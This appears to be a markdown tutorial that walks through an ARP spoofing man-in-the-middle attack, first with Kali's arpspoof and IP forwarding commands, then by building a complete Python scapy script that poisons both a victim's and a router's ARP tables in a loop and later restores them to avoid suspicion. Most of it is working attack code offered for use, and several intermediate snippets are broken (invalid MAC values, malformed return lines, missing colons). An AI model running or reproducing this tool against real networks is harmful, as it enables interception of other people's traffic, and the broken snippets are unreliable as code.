

ARP stands for **Adress Resolution Protocol** this protocol helps us to link  IP addresses to MAC addresses .So whenever devices know each other's IP addresses they use ARP and send broadcast message (asking for that specific IP) in order to know the MAC address of the other device,(the devices which poses that specific IP will respond to that device by sending it's MAC Address).

Our goal is write a code which can perform  a *ARP SPOOF ATTACK* for us, at first lets know briefly about the ARP spoofing :
In this attack the attacker pretends to be router for the victim by taking router's MAC Address and for router the attacker acts as victim by taking its MAC Address and hence attacker become's the **man in the middle** between router and victim,which gives us a huge power you must also think that why ARP Spoof is possible so easily ?

- because clients <mark> accept responses </mark> even if they don't send a request.
- clients trust response without any form of <mark> validation </mark>.

Before writing any code you must know that **KALI** comes with inbuilt tools to perform **ARP SPOOF ATTACK**

run the below command to know your *gateway  IP* and the *interface*

```bash
root@kali:~# route -n

```

Scan all the clients connected to same network to mark your target and it's IP

```bash
root@kali:~# arpspoof -i (interface) -t (target ip)  (gateway ip )  

```
See interface depends you it can eth0/wlan0 anything below command is just an example:

```bash

root@kali:~# arppoof -i eth0 -t 10.0.2.4  10.0.2.1  

```
> The above command fools the target and makes you the router for the him.

In order to spoof the the router you need change the IP sequence in your command  (in different tab)

```bash
root@kali:~# arpspoof -i (interface) -t (gateway ip)  (target ip )  

```
example:

```bash
root@kali:~# arppoof -i eth0 -t 10.0.2.1  10.0.2.4

```

When your machine becomes router for victim and when recives an request it stops them flowing  to the router which is  default security feature built in *KALI* in order to enable port forwarding fix this issue run the below command(in different tab).

**RUN THIS COMMAND EVERYTIME TO ENABLE PORT FORWARDING AFTER AN ARP SPOOF ATTACK**

```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward

```
After this all request will flow first through your machine and than router and same happens when response came back from router
we need write a code thats do the same thing which **arpspoof** does.

---

>For this tool also we will be using scapy module so, please read the [official documentation](https://scapy.readthedocs.io/en/latest/) to understand the code.

In order to become <mark> man in the middle </mark> and to exploit data we need to fool both router and victim by sending ARP response so our first goal is create ARP response with the help of scapy.

```python
#!/usr/bin/env python

import scapy.all as scapy

packet = scapy.ARP()

```
between the bracket we need to set fields as writen in documentation to know all fields do as shown below.



We need to set the field for *op* which is 1 by default for request but since our need is response we will set it's value to 2, our second field is *pdst* which takes the *target IP* and third field is *hwdst* MAC Address for your target ( see things can easily be knowing using network scanner like netdiscover) and the last field the *psrc* source from where our packet is coming it will be the IP of gateway.

```python
#!/usr/bin/env python

import scapy.all as scapy

packet = scapy.ARP(op=2, pdst="10.0.2.4", hwdst="08:23:44:R9:67:U5", psrc="10.0.2.1")

```

Now we are ready to send this packet.

```python
#!/usr/bin/env python

import scapy.all as scapy

packet = scapy.ARP(op=2, pdst="10.0.2.4", hwdst="08:23:44:R9:67:U5", psrc="10.0.2.1")
scapy.send(packet)

```

Upto now our code can fool one machine only in order to fool both victim and router both we need to copy the same code but it will better to use a function to increase the reusablity.


```python
#!/usr/bin/env python

import scapy.all as scapy

def spoof (target_ip, spoof_ip)
packet = scapy.ARP(op=2, pdst=target_ip, hwdst="08:23:44:R9:67:U5", psrc=spoof_ip)
scapy.send(packet)

```


**NOTE: We will be using some part of the code we wrote during NETWORK_SCANNER TOOL check it out because we will be using a part of it to automatically get some MAC field because it will quite annoying set all the fields manually and if you are python Ninja.


```python
def scan(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]


    clients_list= []
    for element in answered_list:
        client_dict ={"ip": element[1].psrc, "mac": element[1].hwsrc}
        clients_list.append(client_dict)

    return clients_list


```

>The above code helps us to get the MAC and IP Address but our target is to get MAC Address from IP so we need some refatoring.

```python
def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]


    return answered_list= [0][1].hwrsc


```

>We first renamed the function name which looks familiar to our target now we don't need the entire clients_list= [] we just need the first element from answered_list[0] and from this we need to access "mac" so answered_list= [0][1].hwrsc and we don't require any further iteration so removed rest of the code, and copy it our main code

```python

#!/usr/bin/env python

import scapy.all as scapy

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    return answered_list= [0][1].hwrsc


def spoof (target_ip, spoof_ip)
  target_mac = get_mac(target_ip)
  packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
  scapy.send(packet)


get_mac(10.0.2.4)

```
We don't need to hardcode all the fields just giving target_ip we will get the MAC Address, Now if we execute our code it will executeD successfully and give a message 1 packet sent but we want to sent this packets on and on in order to be in the man in middle so we can trap our spoof code in a infinite loop to keep sending packets.

```python

#!/usr/bin/env python

import scapy.all as scapy
import time

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    return answered_list= [0][1].hwrsc


def spoof (target_ip, spoof_ip)
  target_mac = get_mac(target_ip)
  packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
  scapy.send(packet)


while True:
  spoof("10.0.2.4", "10.0.2.1")
  spoof("10.0.2.1", "10.0.2.4")
  time.sleep(2)

```
These will keep sending the at the interval 2 sec, but keep sending this packets gives  us a message in the bash.

```bash
root@kali:~Python_code/arp_spoof# python arp_spoof.py
.
Sent 1 packets
.
Sent 1 packets
.

```
By this message our bash will be flooded which we won't want, see now we are printing it like a buffer but we actually want to print it dynamically which can easily be achived by the concept of loops and counter and import one more modules *sys* to flush the sytem buffer.

```python
#!/usr/bin/env python

import scapy.all as scapy

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    return answered_list= [0][1].hwrsc

def spoof (target_ip, spoof_ip)
  target_mac = get_mac(target_ip)
  packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
  scapy.send(packet)

sent_packets_count = 0
while True:
  spoof("10.0.2.4", "10.0.2.1")
  spoof("10.0.2.1", "10.0.2.4")
  sent_packets_count = sent_packets_count + 2
  print("\r[+] Packet sent: " + str(sent_packets_count)),
  sys.stdout.flush()
  time.sleep(2)
```
>\r here plays the key role instead of printing in straight line it restarts from the beginning and keep increasing the counter.

Each computer have an *ARP-Table* which links IP address of same network to their MAC address but then we run the *arp spoof attack* the table got alter by the attacker's  MAC address in the place of router's MAC even after you quit the program in order to resolve this issue we need to restore the *ARP-Table* as it was before the attack in order to that we need send again two more *ARP Responses* after we quit the program which send the original MAC address instead of fooling them so lets define a function

```python
def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

```
We defined function restore to correct ARP tables this function is quite similar to the spoof function the only differnce is in the fields we define
*hwsrc=source_mac* manually otherwise it will take system MAC which doesn't make any sense  and we also define more field *count=4* in send method in order to send it proper no of time and the correct the ARP table.

>Now our all problem are  solved which could cause suspicion  we can add error handling feature to the code because incase while spoofing and interuption can cause error to the attack so it's better to add error handling.

```python
#!/usr/bin/env python

import scapy.all as scapy
import time
import sys


def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]

    return answered_list[0][1].hwsrc


def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

target_ip= "10.0.2.7"
gateway_ip = "10.0.2.1"


try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[+] Packet sent: " + str(sent_packets_count)),
        sys.stdout.flush()
        time.sleep(2)
except KeyboardInterrupt:
    print("[+] Detected CTRL+C ........Resetting ARP Table \n")
    restore(target_ip, gateway_ip)

```

> Set your own gateway ip and target ip : 
```python

target_ip= "target_ip"
gateway_ip = "gateway_ip"

```

Give a shot ! 

